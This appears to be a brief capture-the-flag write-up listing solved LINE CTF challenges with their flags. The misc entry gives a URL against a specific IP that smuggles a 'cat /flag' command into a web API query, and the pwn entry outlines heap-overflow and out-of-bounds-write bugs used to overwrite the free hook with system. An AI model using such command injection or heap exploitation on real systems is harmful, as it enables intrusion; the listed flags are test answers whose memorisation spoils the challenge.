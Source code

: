 # Description

## misc

- `http://35.213.121.48:8080/webapi/system?cat%20/flag`
- **Flag: `LINECTF{600907c530c25f8dbe42babfd9515533}`**

## pwn

- Bugs
    - send: HOF
    - list: HOF
    - edit: HOF, OOB Write
        - edit `-1` to change the data pointer of the firmst mail.
        - use an arbitrary r/w primitives to overwrite the freehook with the system address.
    - delete
- Exploit: exp.py
- **Flag: `LINECTF{f22da6a35e5f93fecb83044baf2cbb38}`**

